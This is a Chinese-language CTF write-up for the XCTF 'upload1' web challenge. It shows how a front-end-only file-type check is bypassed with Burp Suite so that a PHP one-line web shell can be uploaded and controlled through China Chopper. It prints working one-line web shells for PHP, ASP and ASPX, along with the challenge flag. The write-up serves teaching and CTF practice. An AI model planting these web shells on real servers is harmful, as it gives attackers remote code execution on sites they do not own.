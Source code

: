 ```yaml
---
title: upoload1
date: 2020-10-23 16:38:30
categories:
- CTF
- WEB
tags:
- PHP
- 文件上传
---
```


[题目地址](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4822&page=1)

**题目名称**：upload1

**题目描述：**暂无

<!-- more -->

##### WriteUp:

###### **上传一句话木马**

看题目名称应该就知道是文件上传了，创建场景，点击链接页面如下：

![image-20201023164335571](upoload1/image-20201023164335571.png)

先选择一个php后缀文件上传，提示要上传图片

![image-20201023164418341](upoload1/image-20201023164418341.png)

上传一张jpg后缀图片上传，没有反应应该是上传成功了，新建一个文本文件，内容为php一句话木马：

```php
<?php @eval($_POST['pass'])?>
```

把文件后缀改成jpg格式，选择文件然后点击上传并用burpsuite工具抓包（浏览器需开代理）

![image-20201023164914678](upoload1/image-20201023164914678.png)

然后把文件名.jpg后缀去掉，发送请求，可以看到一句话木马上传成功，存储路径为：upload/1603442923.upload.php

![image-20201023165129136](upoload1/image-20201023165129136.png)

###### 菜刀连接

打开“中国菜刀”工具，添加url，配置如下：

![image-20201023165654178](upoload1/image-20201023165654178.png)

双击这个url就可以连接到服务器了，可以看到我们上传的内容，其中就有我们的一句话木马文件（我这里是上传过很多次）

![image-20201023165810390](upoload1/image-20201023165810390.png)

当前目录的上级目录就包含flag.php文件，打开后得到flag

![image-20201023165924077](upoload1/image-20201023165924077.png)

```php
<?php
$flag="cyberpeace{5bcd10d9509d29e1df1ff237b06e51e4}";
?>

```

##### 总结

开始上传php后缀文件失败，提示上传一张图片，而把php文件中的内容不变只加了个jpg后缀就上传成功了，是因为上传文件的判断是在前端进行的，只检测了上传文件的后缀，并没有对文件真正的格式进行校验，所以使用burpsuite代理就可以轻松绕过前端校验。

以前做java后台开发的时候还在疑惑前端已经校验了表单传过来的数据，后端还要再校验一次吗？？？现在就很清楚了，只要是前端校验的东西都可以通过代理绕过。

##### **知识点**

**中国菜刀：**

中国菜刀，是一款专业的网站管理软件，用途广泛，使用方便，小巧实用。只要支持动态脚本的网站，都可以用中国菜刀来进行管理！在主视图中右键/添加，在弹出的对话框中输入服务端地址，连接的密码(请注意上例中的pass字串)，选择正确的脚本类型和语言编码，保存后即可使用文件管理，虚拟终端，数据库管理三大块功能。

**一句话木马：**

- “一句话木马"服务端（是用于本地的html提交脚本木马文件）
  就是我们要用来插入到asp文件中的asp语句，（不仅仅是以asp为后缀的数据库文件），该语句将回为触发，接收入侵者通过客户端提交的数据，执行并完成相应的操作，服务端的代码内容为 <%execute request("value")%> 其中value可以自己修改

- "一句话木马"客户端（远程服务器上被插入一句话的asp可执行文件）
  用来向服务端提交控制数据的，提交的数据通过服务端构成完整的asp功能语句并执行，也就是生成我们所需要的asp木马文件 <%execute(request("value"))%>

  ```
  asp一句话木马：
  	<%execute(request("value"))%>
  php一句话木马：
  	<?php @eval($_POST[value]);?>
  aspx一句话木马：
  	<%@ Page Language="Jscript"%>
  	<%eval(Request.Item["value"])%>
  ```

  